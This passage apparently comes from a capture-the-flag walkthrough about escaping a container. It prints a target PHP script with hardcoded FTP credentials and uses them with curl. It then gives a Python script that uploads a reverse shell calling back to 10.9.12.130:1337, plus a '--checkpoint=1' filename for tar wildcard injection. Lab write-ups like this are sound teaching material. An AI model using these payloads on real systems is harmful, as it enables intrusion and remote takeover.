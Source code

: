 
I 1'st check /var/www/html and `ftp_backup.php` caught my eyes.

```php
<?php
/* 
    Todo: I need to finish coding this database backup script.
	  also maybe convert it to a wordpress plugin in the future.
*/
$dbFile = 'db_backup/backup.sql';
$ftpFile = 'backup.sql';

$username = "backupmgr";
$password = "SuperS1ckP4ssw0rd123!";

$ftp = ftp_connect("172.20.0.1"); // todo, set up /etc/hosts for the container host

if( ! ftp_login($ftp, $username, $password) ){
    die("FTP Login failed.");
}

$msg = "Upload failed";
if (ftp_put($ftp, $remote_file, $file, FTP_ASCII)) {
    $msg = "$file was uploaded.\n";
}

echo $msg;
ftp_close($conn_id); 
```

We got ftp creds for user backupmgr. But in our shell we can't switch users. So we have to do it using pyton in the remote machine. And we can access ftp only locally. We got 

```bash
curl -v -s -P- 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/'

* Connection #0 to host 172.20.0.1 left intact
drwxr-xr-x    2 1001     1001         4096 May 18  2020 files
```

So now we can write a python script to upload a python reverse shell to /files. So when the connection is established we can escape the container.

```py
#!/usr/bin/env python3.7

from ftplib import FTP
import io

#Connecting to the host
ftp = FTP(host= '172.20.0.1')

#login for ftp user
ftp.login(user= "backupmgr", passwd= "SuperS1ckP4ssw0rd123!")
ftp.getwelcome()

ftp.set_pasv(False)
ftp.dir()
ftp.cwd('/files')

payload = io.BytesIO(b'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.12.130",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
empty = io.BytesIO(b'')

ftp.storlines('STOR exploit.sh', payload)
ftp.storlines('STOR --checkpoint=1', empty)
```